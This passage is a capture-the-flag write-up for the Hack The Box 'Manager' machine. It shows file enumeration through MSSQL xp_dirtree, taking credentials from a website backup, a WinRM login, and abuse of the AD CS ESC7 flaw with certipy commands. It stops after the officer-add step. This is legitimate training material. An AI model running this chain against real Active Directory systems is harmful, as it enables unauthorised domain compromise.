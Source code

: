 Here, it looks like we have permission to read the file structure:

```bash
SQL (MANAGER\Operator  guest@master)> EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   
contact.html                          1      1   
css                                   1      0   
images                                1      0   
index.html                            1      1   
js                                    1      0   
service.html                          1      1   
web.config                            1      1   
website-backup-27-07-23-old.zip       1      1   
```
Now we have two interesting files to check: web.config and website-backup ...

The web.config is protected, so we can't download it, however we are able to download the backup...

In the backup we can find the user and password for a user that is in the `Remote Management Users` which sounds good...

```
<user>raven@manager.htb</user>
<password>R4v3nBe5tD3veloP3r!123</password>
```

With those credentials, we can use evil-winrm and get the user flag.

```bash
evil-winrm -i dc01.manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

## Privilege escalation

Could not get it in time, but here's how it was done by another people: https://0xdf.gitlab.io/2024/03/16/htb-manager.html#box-info

After getting the user flag, a little bit of lurking around the machine did not provide anything interesting. So, we'll explore Active Directoy Certificate Service with `certipy`.

```bash
certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
[!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
```

Nice, now we can explote this `ESC7` vulnerability: ESC7 is when a user has either the "Manage CA" or "Manage Certificates" access rights on the certificate authority itself. Raven has ManageCa rights.

First, I’ll need to use the Manage CA permission to give Raven the Manage Certificates permission:

```bash
certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```
